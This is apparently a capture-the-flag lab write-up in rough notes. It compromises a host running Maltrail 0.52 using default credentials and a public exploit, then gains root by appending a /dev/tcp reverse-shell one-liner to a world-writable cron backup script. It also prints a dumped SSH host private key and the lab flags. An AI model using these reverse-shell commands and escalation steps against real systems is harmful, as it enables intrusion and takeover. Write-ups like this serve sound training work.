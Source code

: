 # CTF-200-01 (rough notes)

Initial port scan:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-01]
└─$ nmap -v -Pn -p- -T4 ctf-200-01       
...

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8338/tcp open  unknown
```

Service version fingerprinting:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-01]
└─$ nmap -v -Pn -p 22,80,8338 -A ctf-200-01
...

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
8338/tcp open  unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: Maltrail/0.52
|     Date: Sun, 10 Mar 2024 18:30:53 GMT
|     Connection: close
|     Content-Type: text/html
|     Last-Modified: Sat, 31 Dec 2022 22:58:57 GMT
|     Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
|     Cache-Control: no-cache
|     Content-Length: 7091
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="X-UA-Compatible" content="IE=edge">
|     <meta http-equiv="Content-Type" content="text/html;charset=utf8">
|     <meta name="viewport" content="width=device-width, user-scalable=no">
|     <meta name="robots" content="noindex, nofollow">
|     <title>Maltrail</title>
|     <link rel="stylesheet" type="text/css" href="css/thirdparty.min.css">
|     <link rel="stylesheet" type="text/css" hre
|   HTTPOptions: 
|     HTTP/1.0 501 Unsupported method ('OPTIONS')
|     Server: Maltrail/0.52
|     Date: Sun, 10 Mar 2024 18:30:53 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
```

Checking out the webservers on 80 and 8338 in the browser:

![](./assets/80-webserver-root.png)

![](./assets/8338-webserver-root.png)

My money is on this Maltrail server being our access vector.

We look in the web for default credentials:

![](./assets/maltrail-default-creds.png)

Trying them out (`admin:changeme!`) lets us in - Great!

There are no hits on exploitdb for "maltrail", but searching for "maltrail exploit" on google gets us to [a gitrepo](https://github.com/spookier/Maltrail-v0.53-Exploit).

We clone the repo, read the code, and try it out.

I set up my listener on port 80, and run the code:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-01/Maltrail-v0.53-Exploit]
└─$ python3 exploit.py 192.168.45.172 80 http://ctf-200-01:8338             
Running exploit on http://ctf-200-01:8338/login
```

We catch a shell as user `snort`.

```
┌──(kali㉿kali)-[~/offsec/ctf-200-01/Maltrail-v0.53-Exploit]
└─$ nc -lvnp 80                                                             
listening on [any] 80 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.32] 36084
$ whoami
whoami
snort
```

We find our first flag where we expect it:

```
$ cd /home/snort
cd /home/snort
$ cat local.txt
cat local.txt
2d8c1bc6c448af023375dede7de7561c
```

## Privilege Escalation

We run LinPEAS... the higher relevancy findings I can see are:

- Kernel exploit probable

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: probable
   Tags: [ ubuntu=(22.04) ]{kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
```

- There is a tarball called `etc_backup.tar` in user `snort`'s home directory

I untar the file and go dumpster diving...

I find a bunch of private keys to try in `${UNTARED_ETC}/ssh`:

```
$ pwd
pwd
/home/snort/etc/ssh
$ ls -la
ls -la
total 560
drwxr-xr-x   4 snort snort   4096 Dec 11 12:27 .
drwxr-xr-x 102 snort snort   4096 Dec 16 14:27 ..
-rw-r--r--   1 snort snort 505426 Feb 25  2022 moduli
-rw-r--r--   1 snort snort   1650 Feb 25  2022 ssh_config
drwxr-xr-x   2 snort snort   4096 Feb 25  2022 ssh_config.d
-rw-r--r--   1 snort snort   3266 Dec 11 12:27 sshd_config
drwxr-xr-x   2 snort snort   4096 Feb 25  2022 sshd_config.d
-rw-r--r--   1 snort snort   3239 Oct 31 04:33 sshd_config.ucf-dist
-rw-------   1 snort snort   1381 Jun 15  2022 ssh_host_dsa_key
-rw-r--r--   1 snort snort    601 Jun 15  2022 ssh_host_dsa_key.pub
-rw-------   1 snort snort    505 Jun 15  2022 ssh_host_ecdsa_key
-rw-r--r--   1 snort snort    173 Jun 15  2022 ssh_host_ecdsa_key.pub
-rw-------   1 snort snort    399 Jun 15  2022 ssh_host_ed25519_key
-rw-r--r--   1 snort snort     93 Jun 15  2022 ssh_host_ed25519_key.pub
-rw-------   1 snort snort   2590 Jun 15  2022 ssh_host_rsa_key
-rw-r--r--   1 snort snort    565 Jun 15  2022 ssh_host_rsa_key.pub
-rw-r--r--   1 snort snort    342 Dec  7  2020 ssh_import_id
```

```
$ cat ssh_host_ed25519_key
cat ssh_host_ed25519_key
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACAXSLOD1mfMmNjkOiZZPOCIXefteTW95dKr6X9ZbN8H2gAAAJATlAZRE5QG
UQAAAAtzc2gtZWQyNTUxOQAAACAXSLOD1mfMmNjkOiZZPOCIXefteTW95dKr6X9ZbN8H2g
AAAEA1ChWLNVBMCX2hkw5T/q4Xi8045SXnoI+Si70uYRQZxhdIs4PWZ8yY2OQ6Jlk84Ihd
5+15Nb3l0qvpf1ls3wfaAAAAC3Jvb3RAdWJ1bnR1AQI=
-----END OPENSSH PRIVATE KEY-----
```

Looking at the SSH config, we won't be able to use these keys anyways.... So this is a dead end.

I run `pspy` (which I had to download to kali from the internet and serve over http for the victim host to fetch and run).

We see some interesting findings:

```
2024/03/10 19:13:01 CMD: UID=0     PID=27727  | /usr/sbin/CRON -f -P 
2024/03/10 19:13:01 CMD: UID=0     PID=27728  | /bin/sh -c /var/backups/etc_Backup.sh 
2024/03/10 19:13:01 CMD: UID=0     PID=27730  | tar -cf /home/snort/etc_backup.tar /etc 
2024/03/10 19:13:01 CMD: UID=0     PID=27729  | /bin/bash /var/backups/etc_Backup.sh 
```

The process that created the backup tar that we found earlier runs frequently...

I wonder if we can modify that `/var/backups/etc_backup.sh` script to get root...

```
snort@ochima:~$ ls -la /var/backups | grep etc
ls -la /var/backups | grep etc
-rwxrwxrwx  1 root root     54 Dec 11 12:27 etc_Backup.sh
```

Yes we can... I'll append a reverse shell to that script

```
snort@ochima:/var/backups$ cat etc_Backup.sh
cat etc_Backup.sh
#! /bin/bash 
tar -cf /home/snort/etc_backup.tar /etc

snort@ochima:/var/backups$ echo '0<&196;exec 196<>/dev/tcp/192.168.45.172/8338; sh <&196 >&196 2>&196' >> etc_Backup.sh

snort@ochima:/var/backups$ cat etc_Backup.sh
cat etc_Backup.sh
#! /bin/bash 
tar -cf /home/snort/etc_backup.tar /etc
0<&196;exec 196<>/dev/tcp/192.168.45.172/8338; sh <&196 >&196 2>&196
```

I set up my local listener on port 8338 (in Kali) and wait... and soon enough we get root!

```
┌──(kali㉿kali)-[~/offsec/ctf-200-01]
└─$ nc -lnvp 8338                        
listening on [any] 8338 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.32] 37444
whoami
root
```

We then find our flag where we expect it to be:

```
cat /root/proof.txt
7ce9f4bacb76d5c035660d4588791dcb
```